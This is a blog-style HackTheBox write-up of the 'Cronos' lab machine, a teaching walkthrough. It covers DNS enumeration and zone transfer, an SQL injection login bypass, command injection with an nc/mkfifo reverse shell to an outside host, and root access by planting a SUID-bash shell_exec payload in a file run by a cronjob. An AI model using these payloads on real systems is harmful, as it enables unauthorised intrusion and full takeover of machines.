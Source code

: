 ```yaml
---
title: "HackTheBox - Cronos"
author: Nasrallah
description: ""
date: 2023-04-25 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, medium, cronjob, commandinjection, php, dns, subdomain, ffuf, sqli]
img_path: /assets/img/hackthebox/machines/cronos
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Cronos](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com). A medium linux box where we bypass a login page using sqli and find a command injection vulnerability that we exploit to get foothold. After that we exploit a cronjob to get root access.

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.13
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found three open ports, 22 running OpenSSH, 53 is DNS and 80 is an Apache http web server, all running on Ubuntu.

### Web

Let's check the web page.

![](1.png)

It's the default page for Apache, and nothing interesting can be found.

### DNS

Let's use `nslookup` to extract information from the DNS server and see if we can get a domain name.

```terminal
$ nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 127.0.0.1
1.0.0.127.in-addr.arpa  name = localhost.
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```

We found the domain `cronos.htb`, let's add it to `/etc/hosts` and navigate to it.

![](2.png)

We got another page this time, but still nothing useful can be found.

### ffuf

Let's fuzz for subdomains

```terminal
$ ffuf -c -w /usr/share/seclists/Discovery/DNS/namelist.txt -u http://cronos.htb/ -H "Host: FUZZ.cronos.htb/" -fl 380                                    
                                                                                                                                                              
        /'___\  /'___\           /'___\                                                                                                                       
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                      
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                       
          \/_/    \/_/   \/___/    \/_/                                                                                                                       
                                                                                                                                                              
       v1.4.1-dev                                                                                                                                             
________________________________________________                                                                                                              
                                                                                                                                                              
 :: Method           : GET                                                                                                                                    
 :: URL              : http://cronos.htb/                                                                                                                     
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt                                                                                   
 :: Header           : Host: FUZZ.cronos.htb/                                                                                                                 
 :: Follow redirects : false                                                                                                                                  
 :: Calibration      : false
 :: Timeout          : 10                                                      
 :: Threads          : 40        
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 380
________________________________________________
                                                                               
admin                   [Status: 200, Size: 1547, Words: 525, Lines: 57, Duration: 482ms]
```

Not until i finished the scan i realized that i could've enumerated the DNS server to get subdomains.

```terminal
$ dig axfr cronos.htb @10.10.10.13                                                                                  

; <<>> DiG 9.16.37-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 586 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Mon May 01 09:45:03 +01 2023
;; XFR size: 7 records (messages 1, bytes 203)

```

We found the subdomain `admin`, we add it to `/etc/hosts/` and navigate to it.

![](3.png)

It's a login page, i tried some default credentials and failed but managed to login using sql injection with the famous payload `' or 1=1 -- -`

![](4.png)

## **Foothold**

After login in successfully i saw that we can run traceroute, so i wasted no time and tested for command injection.

![](5.png)

Great! The web site is vulnerable, now it's time for a reverse shell, and for that i used `nc mkfifo`.

```terminal
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.17.90 9001 >/tmp/f
```

![](6.png)


## **Privilege Escalation**

Checking the `/etc/crontab` we see a cronjob running every minute.

```terminal
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

After some research i found this [documentation](https://laravel.com/docs/10.x/scheduling#scheduling-artisan-commands) about scheduled tasks in Laravel.

The scheduled tasks can be found in `app/Console/Kernel.php` file.

```php
<?php                                                                                                                                                         
                                                                                                                                                              
namespace App\Console;                                                                                                                                        
                                                                                                                                                              
use Illuminate\Console\Scheduling\Schedule;                                                                                                                   
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;                                                                                                    
                                                                                                                                                              
class Kernel extends ConsoleKernel                                                                                                                            
{                                                                                                                                                             
    /**                                                                                                                                                       
     * The Artisan commands provided by your application.                                                                                                     
     *                                                                                                                                                        
     * @var array                                                                                                                                             
     */                                                                                                                                                       
    protected $commands = [                                                                                                                                   
        //                                                                                                                                                    
    ];                                                                                                                                                        
                                                                                                                                                              
    /**                                                                                                                                                       
     * Define the application's command schedule.                                                                                                             
     *
     * @param  \Illuminate\Console\Scheduling\Schedule  $schedule
     * @return void
     */
    protected function schedule(Schedule $schedule)
    {
        // $schedule->command('inspire')
        //          ->hourly();
    }

    /**
    * Register the Closure based commands for the application.
     *
     * @return void
     */
    protected function commands()
    {
        require base_path('routes/console.php');
    }
}
```

At the very bottom we see the routes/console.php file being called.

As user `www-data` we have control over that file, so we can change it to execute something malicious. In this case, I'll edit `console.php` to run the following code.

```php
<?php shell_exec('cp /bin/bash /tmp/bash && chmod +s /tmp/bash'); ?>
```

This will create a copy on bash in /tmp and give it suid permission so i can run it as root.

![](7.png)

And we got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).